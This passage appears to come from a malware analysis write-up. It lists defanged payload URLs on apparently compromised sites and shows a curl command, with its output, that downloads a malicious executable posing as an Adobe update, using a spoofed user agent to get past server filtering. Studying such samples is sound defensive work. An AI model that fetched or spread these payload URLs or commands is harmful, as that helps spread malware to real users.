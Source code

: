 	GET hxxp://JLINKSMS[.]COM/get.php?dgfdfg=0.020113263744860888&key=f5&pdf=search
	GET hxxp://CHEAPRIZESMS[.]COM/get.php?dgfdfg=0.6769137345254421&key=f5&pdf=search
	GET hxxp://ELEMENTGUMRUK[.]COM/language/get.php?dgfdfg=0.1893466750625521&key=f5&pdf=search
	GET hxxp://IBMDATACAP[.]COM/wp-content/themes/academy/get.php?dgfdfg=0.11392477317713201&key=f5&pdf=search
	GET hxxp://WELLNESSHERBAL[.]COM/wp-content/themes/tiny-framework/get.php?dgfdfg=0.7516817327123135&key=f5&pdf=search
	GET hxxp://ITSMYTEA[.]COM/xmlrpc/get.php?dgfdfg=0.45238890522159636&key=f5&pdf=search
	GET hxxp://www.LANDTOURJAPAN[.]COM/get.php?dgfdfg=0.5003419334534556&key=f5&pdf=search
	GET hxxp://INTEGRITYSMSNG[.]COM/get.php?dgfdfg=0.7602681068237871&key=f5&pdf=search
	GET hxxp://CREATIVEFOODSTYLIST[.]COM/get.php?dgfdfg=0.2591306504327804&key=f5&pdf=search
	GET hxxp://www.KMDERUNJEWELRY[.]COM/get.php?dgfdfg=0.19865264417603612&key=f5&pdf=search
	GET hxxp://ADENYAOTELEET[.]COM/get.php?dgfdfg=0.8011750828009099&key=f5&pdf=search
	GET hxxp://MAJORCASE[.]ORG/get.php?dgfdfg=0.7017634396906942&key=f5&pdf=search
	GET hxxp://ISTANBULKLIMA[.]ORG/get.php?dgfdfg=0.33236109651625156&key=f5&pdf=search
	GET hxxp://ENTHELP[.]COM/get.php?dgfdfg=0.25800628517754376&key=f5&pdf=search
	GET hxxp://HEALINGSPRINGWORKSHOPS[.]COM/wp-content/themes/travel-blogger/get.php?dgfdfg=0.4463676530867815&key=f5&pdf=search
	GET hxxp://TUGRAHOTELS[.]COM/get.php?dgfdfg=0.5060989174526185&key=f5&pdf=search
	GET hxxp://www.florianbruening[.]com/get.php?dgfdfg=0.8751774763222784&key=f5&pdf=search
	GET hxxp://JUALTOWERTRIANGLE[.]COM/get.php?dgfdfg=0.08316186326555908&key=f5&pdf=search
	GET hxxp://MAAKCARD[.]COM/get.php?dgfdfg=0.8340241997502744&key=f5&pdf=search
	GET hxxp://www.jakimbost[.]pl/get.php?dgfdfg=0.9773174184374511&key=f5&pdf=search
	GET hxxp://THEVILLAGEVETERINARYHOSPITAL[.]COM/get.php?dgfdfg=0.6214603304397315&key=f5&pdf=search

So now that we have the payload URLs we can download them for further analysis. It attempts to download either a malicious executable or pdf. The URLs without `&pdf=search` on the end are the MS-DOS executables. When attempting to download these I noticed that my curl command was failing with my Firefox user agent (404 page). Switching it to a traditional IE10 user agent allowed me to download the payload. 
  
#### Failed Command
	curl -vA "Mozilla/5.0 (Windows NT 6.1; WOW64; rv:37.0) Gecko/20100101 Firefox/37.0" -L "hxxp://TUGRAHOTELS[.]COM/get.php?dgfdfg=0.5332026502583176&key=f5" > bad_dl.exe
	
	% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
								   Dload  Upload   Total   Spent    Left  Speed
	0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 159.253.42.153...
	Connected to TUGRAHOTELS[.]COM (159.253.42.153) port 80 (#0)
	
	GET /get.php?dgfdfg=0.5332026502583176&key=f5 HTTP/1.1
	User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:37.0) Gecko/20100101 Firefox/37.0
	Host: TUGRAHOTELS[.]COM
	Accept: */*
				   
	HTTP/1.1 200 OK
	Content-Type: application/x-msdownload
	Content-Disposition: inline; filename=Adobe_update-YXXQ1RX4IL6LV2M.exe
	Content-Length: 3
	Date: Tue, 11 Aug 2015 21:01:02 GMT
	Accept-Ranges: bytes
	Server LiteSpeed is not blacklisted
	Server: LiteSpeed
	Connection: close
			     